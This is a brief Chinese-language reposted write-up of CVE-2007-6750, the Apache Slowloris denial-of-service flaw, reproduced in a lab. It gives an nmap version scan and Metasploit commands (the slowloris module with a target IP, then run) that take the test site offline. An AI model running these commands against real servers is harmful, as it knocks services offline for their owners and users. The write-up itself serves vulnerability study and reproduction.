



# （CVE-2007-6750）Apache ddos

> 原文：[https://www.zhihuifly.com/t/topic/2807](https://www.zhihuifly.com/t/topic/2807)

# （CVE-2007-6750）Apache ddos

## 一、漏洞简介

Apache HTTP服务器1.x和2.x允许远程攻击者通过部分HTTP请求导致拒绝服务(守护进程中断)，如Slowloris所示，这与2.2.15之前版本中缺少mod_ReqTimeout模块有关

## 二、漏洞影响

Apache 1.x/2.x

## 三、复现过程

nmap -sV -p80 192.168.146.175(用nmap查看Apache版本)(Apache2.2.3初步断定存在漏洞)



接着访问网站查看是否正常(发现网站正常)



```
msfconsole(启动metasploit)

use auxiliary/dos/http/slowloris(使用模块)

set RHOST 192.168.146.175(设置目标IP) `run(执行攻击)` 
```



再访问网站查看是否正常(发现网站瘫痪)


## 四、参考链接

> https://www.jsxlo.com/cve-2007-6750/